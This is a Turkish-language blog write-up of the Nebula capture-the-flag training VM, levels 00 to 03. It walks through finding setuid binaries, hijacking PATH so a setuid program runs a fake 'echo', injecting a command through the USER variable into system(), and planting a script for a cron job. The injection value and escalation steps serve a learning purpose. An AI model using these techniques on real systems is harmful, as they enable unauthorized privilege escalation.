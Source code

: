 ```yaml
---
layout: post
title: "Nebula Write Up-1"
date: 2018-02-26
excerpt: "[Level 00-Level 04]"
comments: false
---
```

  Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.

### Level 00

Bu level için bizden beklenen flag00 kullanıcısına ait, suid bitine sahip olan, çalıştırılabilir bir dosya bulmamız. 

{% raw %}
    level00@nebula:~$ find / -type f -user flag00 -perm -u=s 2>/dev/null
    /bin/.../flag00
    /rofs/bin.../flag00
{% endraw %}
Dosyaları incelediğimizde ELF türünde olduklarını görüyoruz. Dosyalardan birini çalıştırdığımızda,
{% raw %}
    level00@nebula:~$ /bin/.../flag00
    Congrats, now run getflag to get your flag !
    flag00@nebula:~$
{% endraw %}
flag değerini elde edebilmek için getflag dosyasını çalıştırmamız gerektiği bilgisine erişiyoruz.
{% raw %}
    flag00@nebula:~$ find / -name getflag
    /bin/getflag
    /rofs/bin/getflag
    flag00@nebula:~$ /bin/getflag
    You have successfully executed getflag on a target account
{% endraw %}

### Level 01

Bu bölümde bizden beklenen /home/flag01 dizini altında bulunan c programında, istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmamız.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
     gid_t gid;
     uid_t uid;
     gid = getegid();
     uid = geteuid();

     setresgid(gid, gid, gid);
     setresuid(uid, uid, uid);

     system("/usr/bin/env echo and now what?");
    }
{% endraw %}
{% endhighlight %}

Programın işleyişini daha iyi anlayabilmek adına, kaynak kodda bulunan bazı fonksiyonlara bakalım.

> **gid_t getegid(void);**  çağırılan processin effective group-id değerini döndürüyor. 

> **uid_t geteuid(void);**  çağırılan processin effective user-id değerini döndürüyor. 

> **int setresgid(gid_t rgid,gid_t egid,git_t sgid);**  çağırılan processin real,effective,saved  group-id değerlerini set ediyor. 

> **int setresuid(uid_t ruid,uid_t euid,uid_t suid);**  çağırılan processin real,effective,saved user-id değerlerini set ediyor. 

`Effective uid/gid` ve `real uid/gid` kavramları arasındaki farkı da şu şekilde özetleyebiliriz:
> Shell login işlemi gerçekleştiğinde real uid/gid  ile effective uid/gid değerleri aynıdır, ve processi yaratan kullanıcının uid/gid'sine karşılık gelir. Effective uid/gid değeri; suid bitine sahip olan bir dosya çalıştırıldığında ve dosya sahibi ile dosyayı çalıştıran kullanıcı farklı olduğu durumlarda değişir. Dosya sahibinin uid/gid'sine karşılık gelir. Özet olarak real uid/gid processi yaratan kullanıcının uid/gid değerine eşitken, effective uid/gid dosya sahibinin uid/gid değerine eşit olur.

Aşina olmadığımız fonksiyonlar hakkında fikir sahibi olduktan sonra, asıl meseleye geri dönelim.Programı çalıştırdığımızda beklenen üzere bu şekilde bir çıktı elde ediyoruz.
{% raw %}
    level01@nebula:/home/flag01$ ./flag01
    and now what?
{% endraw %}
Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir şey elde edemiyoruz. Manipüle edilebilir gibi görünen system() fonksiyonu üzerinden yürümeyi deniyoruz.Burada dikkatimizi çeken echo komutunun önünde bulunan /usr/bin/env komutu.
> `/usr/bin/env` komutu, programı değiştirilmiş bir ortamda çalıştırmayı sağlar. Bunun için PATH değişkeninde bulunan dizinlere sırası ile bakılır. Çalıştırılmak istenen program ilk hangi dizinde bulunursa, o dizindeki program çalıştırılır.

> `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.

Bizde PATH değişkenine yeni bir dizin ekleyip,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydettiğimizde, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
{% raw %}
    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
    level01@nebula:/home/flag01$ ./flag01
    You have successfully executed getflag on a target account
{% endraw %}

### Level 02
Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizininde bulunan programda,istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmak.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endraw %}
{% endhighlight %}
Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02 is cool")
    level02 is cool
{% endraw %}
Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
{% raw %}
    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
    level02@nebula:/home/flag02$ echo $USER
    level02; /bin/getflag ; echo
{% endraw %}
Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
    level02
    You have successfully executed getflag on a target account
    is cool
{% endraw %}

### Level 03
/home/flag03 dizininde birtakım dosyaların var olduğu ve her iki dakikada bir çağırılan bir crontab bulunduğu bilgisi verilmiş.Leveli tamamlayabilmek için flag03 kullanıcısı ile getflag dosyasının çalıştırılması gerektiğini biliyoruz.
{% raw %}
    level03@nebula:/home/flag03$ file *
    writable.d: directory
    writable.sh: POSIX shell script text executable
    level03@nebula:/home/flag03$ cat writable.sh
    #!/bin/bash
     
    for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5 ; bash -x "$i")
        rm -f "$i"
    done
{% endraw %}
Script özetle, writable.d dizininde bulunan bash script dosyalarını çalıştırıp ardından siliyor.
> `ulimit` komutu, sistem kaynaklarının hangi ölçülerde kullanıldığının istatistiğini verir ve bunları sınırlamayı sağlar.
-t parametresi ile de kaynağın, her bir process tarafından kullanılabileceği saniye sayısı belirtilmiş.

Cronun hangi kullanıcı için yazıldığını öğrenmeye çalışıyoruz.
{% raw %}
     level03@nebula:/home/flag03$ crontab -l
     no crontab for level03
     level03@nebula:/home/flag03$ crontab -u flag03 
     must be privileged to use -u
{% endraw %}
Farklı bir yol deneyip, /tmp dizini içerisinde dosya oluşturan bir script yazıyoruz. Cron çalıştıktan sonra  /tmp dizininde oluşan dosyanın sahibini kontrol ediyoruz. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "touch /tmp/test" > test.sh
     level03@nebula:/tmp$ ls -l
     -rwxrwxr-x 2 flag03 flag03 40 2018-02-26 14:18 test
{% endraw %}
Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız. Çalışıp çalışmadığını kontrol edebilmek için, çıktısını /tmp dizinine yönlendiriyoruz.
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "/bin/getflag > /tmp/output " > getflag.sh
     level03@nebula:/tmp$ ls
     output test
     level03@nebula:/tmp$ cat output
     You have successfully executed getflag on a target account
{% endraw %}
